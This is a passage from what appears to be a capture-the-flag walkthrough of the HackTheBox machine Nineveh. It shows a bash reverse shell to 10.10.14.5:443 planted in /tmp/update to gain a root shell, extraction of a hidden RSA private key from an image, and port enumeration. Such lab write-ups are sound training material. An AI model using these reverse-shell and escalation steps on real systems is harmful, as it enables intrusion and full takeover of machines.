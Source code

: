 ```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" > /tmp/update; chmod +x /tmp/update
```

At the listener, I have root shell.

```
┌──(Hades㉿10.10.14.5)-[2.6:25.5]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.43] 56490
bash: cannot set terminal process group (27001): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# whoami
whoami
root
```

### Steganography and Knockd

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/nineveh)

Follow note `check your serect folder to get in! figure it out! this is your challenge` and check out www folder, I saw `ssl` folder.

```
www-data@nineveh:/var/www$ ls
cd  html  ssl
```

Go to `ssl` and there is an `secure_notes` contain image `nineveh.png`.

```
www-data@nineveh:/var/www/ssl$ ls secure_notes/
index.html  nineveh.png
www-data@nineveh:/var/www/ssl$ ls /home
amrois
```

May admin used some steganography to hidden text and challenge user amrois to figure it out.

I download image `nineveh.png` and using `strings` to list text on it.

```
┌──(Hades㉿10.10.14.5)-[2.2:31.2]~/walkthrough/hackthebox/nineveh
└─$ strings nineveh.png
www-data
secret/nineveh.priv

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
<snip>
```

Now, I have the private key, but at the openning services scanned when I gather infomation, port 22 is not open. Let's have a local enum opening ports.

```
www-data@nineveh:/tmp$ netstat -antup
<snip>
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
<snip>
```
